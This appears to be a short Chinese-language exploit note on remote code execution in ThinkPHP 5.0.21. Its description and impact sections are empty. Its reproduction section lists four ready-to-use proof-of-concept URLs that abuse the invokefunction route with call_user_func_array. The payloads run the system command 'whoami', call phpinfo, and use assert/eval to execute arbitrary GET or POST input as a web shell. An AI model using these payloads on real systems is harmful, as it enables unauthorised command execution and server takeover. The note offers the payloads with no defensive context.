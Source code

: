 # Thinkphp 5.0.21

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

1、poc


```
http://url/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

2、poc


```
http://url/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

3、poc


```
http://url/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=system("whoami"); 
```

4、poc


```
http://url/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=eval($_POST[ian]);
```